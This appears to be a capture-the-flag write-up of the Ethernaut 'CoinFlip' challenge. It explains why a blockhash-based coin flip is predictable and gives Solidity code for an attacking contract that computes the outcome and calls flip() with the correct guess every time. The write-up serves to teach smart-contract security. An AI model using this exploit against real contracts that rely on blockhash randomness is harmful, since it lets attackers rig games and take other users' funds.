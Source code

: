 This challenge highlights the lack of randomness on the blockchain.

We're given a contract that flips a coin and we need to correctly guess its result 10 times in a row.

The contract, `CoinFlip` chooses its result using simple arithmetic.
1. It gets the blockhash of the last block
```javascript
uint256 blockValue = uint256(blockhash(block.number.sub(1)))
```
2. And divides it by a hardcoded `FACTOR`
```javascript
uint256 coinFlip = blockValue.div(FACTOR)
bool side = coinFlip == 1 ? true : false;
```

So to guess what side is going to come up, we just need to do the same math.

Note, the key here is that the blockhash is available to us outside of this contract - there is no inherit randomness in the coin flipping algorithm.

## Solution
Open up an IDE like Remix.

1. Copy the contents of the CoinFlip contract
2. Create a near identical contract that replicates the flipping algorithm. We'll do the same math:
```javascript
contract WeightedCoin {

    CoinFlip oldContract = CoinFlip(/*< your instance address >*/)
    using SafeMath for uint256;
    uint lastHash;
    uint FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    function cheat() public {
        // grab the blockhash
        uint blockValue = uint256(blockhash(block.number.sub(1)));

        // this has to be run on a different block each time
        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        // implement same flipping logic
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
    }
}
```
3. Here's the magic: using our contract instance from Ethernaut, we can call the `CoinFlip` contract's `flip()` method with a guess we know will be true
 ```javascript
// add this to the end of "cheat"
oldContract.flip(side)
 ```  
 4. Repeat step 3. 9 more times.